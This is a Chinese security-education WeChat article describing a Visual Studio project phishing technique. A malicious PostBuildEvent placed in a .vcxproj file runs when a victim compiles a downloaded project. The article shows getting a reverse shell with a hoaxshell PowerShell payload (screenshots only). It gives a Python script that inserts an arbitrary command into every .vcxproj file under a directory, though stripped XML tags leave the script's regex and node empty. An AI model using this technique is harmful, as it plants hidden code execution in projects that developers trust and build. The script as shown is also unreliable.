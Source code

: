 #  Visual Studio项目钓鱼

原创 zkaq-camer  [ 掌控安全EDU ](javascript:void\(0\);)

**掌控安全EDU** ![]()

微信号 ZKAQEDU

功能介绍 安全教程\高质量文章\面试经验分享，尽在#掌控安全EDU#

____

___发表于_

收录于合集

获网安教程

免费&进群

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175239.png)
![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175240.png)  
本文由掌控安全学院-camer投稿，文章灵感来自 apt-38 钓鱼样本。

# 0x01 漏洞成因

漏洞的形成主要是因为Visual Studio的项目文件（vcxproj）是基于XML格式的，XML文件本身并不包含可执行代码。然而，Visual
Studio的XML解析器允许在项目文件中包含一些自定义的命令，这些命令可以在构建项目时被执行。

# 0x02 漏洞复现

正常情况下使用Visual Studio去编译github上下载的项目

![]()  
通过修改Visual Studio的项目文件（vcxproj)植入恶意命令

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175241.png)

当项目被下载编译时机会执行命令

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175242.png)

# 0x03 漏洞利用

可以直接反弹shell，通过hoaxshell直接生成powershell，并开启监听

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175243.png)

将代码插入Visual Studio的项目文件（vcxproj）的XML标签中

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175246.png)

直接编译，终端反弹shell

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175247.png)

漏洞利用脚本：

    
          1. import argparse
    
      2. import os
    
      3. import re
    
      4.   5. # 解析命令行参数
    
      6. parser = argparse.ArgumentParser(description='Insert PostBuildEvent node into .vcxproj files.')
    
      7. parser.add_argument('-d', '--directory', metavar='directory', type=str, default='.', help='the directory to search for .vcxproj files')
    
      8. parser.add_argument('-c', '--command', metavar='command', type=str, default='calc.exe', help='the command to be executed in the PostBuildEvent node')
    
      9. args = parser.parse_args()
    
      10.   11. # 定义正则表达式，用于匹配.vcxproj文件中的标签
    
      12. property_group_pattern = re.compile(r'\s*')
    
      13.   14. # 定义插入的节点内容
    
      15. post_build_event_node = '\n\n  \n    {command}\n  \n\n'.format(command=args.command)
    
      16.   17. # 遍历指定目录下的所有文件和子目录
    
      18. for root, dirs, files in os.walk(args.directory):
    
      19.     # 遍历当前目录下的所有文件
    
      20.     for file in files:
    
      21.         # 如果文件扩展名是.vcxproj，则进行处理
    
      22.         if file.endswith('.vcxproj'):
    
      23.             file_path = os.path.join(root, file)
    
      24.             # 打开文件，读取全部内容
    
      25.             with open(file_path, 'r', encoding='utf-8') as f:
    
      26.                 content = f.read()
    
      27.             # 在标签后插入节点
    
      28.             new_content = property_group_pattern.sub(post_build_event_node + '\\g', content)
    
      29.             # 如果文件内容有变化，则写回文件
    
      30.             if new_content != content:
    
      31.                 with open(file_path, 'w', encoding='utf-8') as f:
    
      32.                     f.write(new_content)
    
    
    

  

申明：本公众号所分享内容仅用于网络安全技术讨论，切勿用于违法途径，

所有渗透都需获取授权，违者后果自行承担，与本号及作者无关，请谨记守法.

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175248.png)  

 **没看够~？欢迎关注！**

  

  

 **分享本文到朋友圈，可以凭截图找老师领取**

上千 **教程+工具+交流群+靶场账号** 哦



![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175239.png)

 ** ** **分享后扫码 加我！**

  

 **回顾往期内容**

[Xray挂机刷漏洞](http://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247504665&idx=1&sn=eb88ca9711e95ee8851eb47959ff8a61&chksm=fa6baa68cd1c237e755037f35c6f74b3c09c92fd2373d9c07f98697ea723797b73009e872014&scene=21#wechat_redirect)  

[零基础学黑客，该怎么学？](http://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247487576&idx=1&sn=3852f2221f6d1a492b94939f5f398034&chksm=fa686929cd1fe03fcb6d14a5a9d86c2ed750b3617bd55ad73134bd6d1397cc3ccf4a1b822bd4&scene=21#wechat_redirect)

[网络安全人员必考的几本证书！](http://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247520349&idx=1&sn=41b1bcd357e4178ba478e164ae531626&chksm=fa6be92ccd1c603af2d9100348600db5ed5a2284e82fd2b370e00b1138731b3cac5f83a3a542&scene=21#wechat_redirect)  

[文库｜内网神器cs4.0使用说明书](http://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247519540&idx=1&sn=e8246a12895a32b4fc2909a0874faac2&chksm=fa6bf445cd1c7d53a207200289fe15a8518cd1eb0cc18535222ea01ac51c3e22706f63f20251&scene=21#wechat_redirect)  

[代码审计 |
这个CNVD证书拿的有点轻松](http://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247503150&idx=1&sn=189d061e1f7c14812e491b6b7c49b202&chksm=fa6bb45fcd1c3d490cdfa59326801ecb383b1bf9586f51305ad5add9dec163e78af58a9874d2&scene=21#wechat_redirect)

[【精选】SRC快速入门+上分小秘籍+实战指南](http://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247512593&idx=1&sn=24c8e51745added4f81aa1e337fc8a1a&chksm=fa6bcb60cd1c4276d9d21ebaa7cb4c0c8c562e54fe8742c87e62343c00a1283c9eb3ea1c67dc&scene=21#wechat_redirect)

## [    代理池工具撰写 |
只有无尽的跳转，没有封禁的IP！](http://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247503462&idx=1&sn=0b696f0cabab0a046385599a1683dfb2&chksm=fa6bb717cd1c3e01afc0d6126ea141bb9a39bf3b4123462528d37fb00f74ea525b83e948bc80&scene=21#wechat_redirect)

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175248.png)

点赞+在看支持一下吧~感谢看官老爷~

你的点赞是我更新的动力

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

